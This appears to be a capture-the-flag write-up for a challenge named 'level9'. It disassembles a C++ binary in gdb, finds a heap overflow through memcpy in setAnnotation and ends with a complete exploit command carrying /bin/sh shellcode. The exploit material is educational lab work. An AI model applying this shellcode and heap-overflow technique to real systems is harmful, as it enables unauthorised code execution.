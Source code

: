 ## level9
The `level9` is slightly a bit more complicated as it is written on C++ 
```
(gdb) disas main
Dump of assembler code for function main:
   0x080485f4 <+0>:	push   ebp
   0x080485f5 <+1>:	mov    ebp,esp
   0x080485f7 <+3>:	push   ebx
   0x080485f8 <+4>:	and    esp,0xfffffff0
   0x080485fb <+7>:	sub    esp,0x20
   0x080485fe <+10>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x08048602 <+14>:	jg     0x8048610 <main+28>
   0x08048604 <+16>:	mov    DWORD PTR [esp],0x1
   0x0804860b <+23>:	call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:	mov    DWORD PTR [esp],0x6c
   0x08048617 <+35>:	call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:	mov    ebx,eax
   [...]
~$ c++filt _Znwj
operator new(unsigned int)
```
So we suspect there's a Class being created with the operator *new* and this class looks like to have a constructor
```
0x080486f6 in N::N(int) ()
Dump of assembler code for function _ZN1NC2Ei:
   0x080486f6 <+0>:	push   ebp
=> 0x080486f7 <+1>:	mov    ebp,esp
   0x080486f9 <+3>:	mov    eax,DWORD PTR [ebp+0x8]
   0x080486fc <+6>:	mov    DWORD PTR [eax],0x8048848
   0x08048702 <+12>:	mov    eax,DWORD PTR [ebp+0x8]
   0x08048705 <+15>:	mov    edx,DWORD PTR [ebp+0xc]
   0x08048708 <+18>:	mov    DWORD PTR [eax+0x68],edx
   0x0804870b <+21>:	pop    ebp
   0x0804870c <+22>:	ret
```
with an
```
(gdb) info functions
[...]
0x080486f6  N::N(int)
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
[...]
```
We can see the class is composed with a *__constructor__* *(constructor has same name as Class)* and three methods <br> *__setAnnotation(char \*)__*, *__operator+(N&)__* and *__operator-(N&)__* <br>
We we disassembly the *setAnnotation()* function we will find some interesting things *(a call to memcpy() which we can use to overflow the heap)*
```
(gdb) disas _ZN1N13setAnnotationEPc
   0x0804870e <+0>:	push   ebp
   0x0804870f <+1>:	mov    ebp,esp
   0x08048711 <+3>:	sub    esp,0x18
   0x08048714 <+6>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048717 <+9>:	mov    DWORD PTR [esp],eax
   0x0804871a <+12>:	call   0x8048520 <strlen@plt>
   0x0804871f <+17>:	mov    edx,DWORD PTR [ebp+0x8]
   0x08048722 <+20>:	add    edx,0x4
   0x08048725 <+23>:	mov    DWORD PTR [esp+0x8],eax
   0x08048729 <+27>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804872c <+30>:	mov    DWORD PTR [esp+0x4],eax
   0x08048730 <+34>:	mov    DWORD PTR [esp],edx
   0x08048733 <+37>:	call   0x8048510 <memcpy@plt>
   0x08048738 <+42>:	leave
   0x08048739 <+43>:	ret
```
So the argument we pass to the prgram is being passed as argument to *setAnnotation(argv[1])* you can check it by
```
r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

(gdb) b  *0x08048670
Breakpoint 1 at 0x8048670
n
=> 0x08048670 <+124>:	mov    eax,DWORD PTR [esp+0x14]
(gdb) x/s $eax
0xbffff85c:	 'A' <repeats 110 times>
ni
ni
ni
(gdb) i r
eax            0x804a00c	134520844
ecx            0x4141	16705                    <-------------------------
edx            0x804a07a	134520954
ebx            0x804a078	134520952
esp            0xbffff650	0xbffff650
ebp            0xbffff678	0xbffff678
esi            0x0	0
edi            0x0	0
eip            0x804867c	0x804867c <main+136>
eflags         0x200283	[ CF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51

```
As we can see after passing 110 characters we overwrote by two bytes `ecx` what gives us an **__offset_** of `108`
We can also see in the `main()` that the two call to `new()` returns the two __address__ 
```
0x804a008 = first  new()
0x804a078 = second new()
```
That is exactly `0x70 bytes (112)`  from each other what is probably the `malloc(sizeof(M))` we can also see that before each call a value of `0x6c bytes (108)` is passed
```
0x08048610 <+28>:	mov    DWORD PTR [esp],0x6c
0x08048617 <+35>:	call   0x8048530 <_Znwj@plt>
``` 
We can also verify that we are calling the __address__ of the *first new()*` to  *setAnnotation()* with the string we supplied the program 
```
   0x08048674 <+128>:	mov    DWORD PTR [esp],eax
=> 0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    eax,DWORD PTR [esp+0x10]
   
(gdb) x/4xw $esp
0xbffff6b0:	0x0804a008	0xbffff8c5	0xbffff780	0xb7d79e55
(gdb) x/s 0xbffff8c5
0xbffff8c5:	 "hello"
```
After that in `main()` we see a call to `edx` that contains the __address__ of the *second new()* `0x804a078` let put a break and check
```
(gdb) b *0x08048690
Breakpoint 2 at 0x8048690
n
=> 0x08048690 <+156>:	mov    DWORD PTR [esp],eax
   0x08048693 <+159>:	call   edx
(gdb) x/4xw $eax
0x804a078:	0x08048848	0x00000000	0x00000000	0x00000000
```
If we disassembly the `setAnnotation()` function we can see where our string is being stored
```
(gdb) disas _ZN1N13setAnnotationEPc
Dump of assembler code for function _ZN1N13setAnnotationEPc:
   0x0804870e <+0>:	push   ebp
   0x0804870f <+1>:	mov    ebp,esp
   0x08048711 <+3>:	sub    esp,0x18
   0x08048714 <+6>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048717 <+9>:	mov    DWORD PTR [esp],eax
   0x0804871a <+12>:	call   0x8048520 <strlen@plt>
   0x0804871f <+17>:	mov    edx,DWORD PTR [ebp+0x8]
   0x08048722 <+20>:	add    edx,0x4
   0x08048725 <+23>:	mov    DWORD PTR [esp+0x8],eax      <---------------- contain the return from strlen()
=> 0x08048729 <+27>:	mov    eax,DWORD PTR [ebp+0xc]      <---------------- the address where our string was stored when passed to the prgram
   0x0804872c <+30>:	mov    DWORD PTR [esp+0x4],eax
   0x08048730 <+34>:	mov    DWORD PTR [esp],edx          <---------------- the address to copy the string (the address of the first call to new)
   0x08048733 <+37>:	call   0x8048510 <memcpy@plt>
   0x08048738 <+42>:	leave
   0x08048739 <+43>:	ret
End of assembler dump.
(gdb) x/x $eax
0x6e:	Cannot access memory at address 0x6e
(gdb) ni
0x0804872c in N::setAnnotation(char*) ()
(gdb) x/x $eax
0xbffff85c:	0x41414141   
(gdb) x/x $edx
0x804a00c:	0x00000000  <---------------------- Here we have where our string is being stored if you check what is passed to memcpy() above
```

We now have enough information to try to get the flag, as we don't have any call to `system()` function here we will need to pass a *shellcode* as in `level2`
__Shell code__ `'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'` that gives us a total of `24 bytes` we know the *offset* is 108 - 24 for the shell code and 4 for the address what leaves us with *80 bytes* of random characters
```
./level9 $(python -c "print '\x10\0xa0\x04\x08' + 'A' * 80 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + '\x0c\xa0\x04\x08'")
```
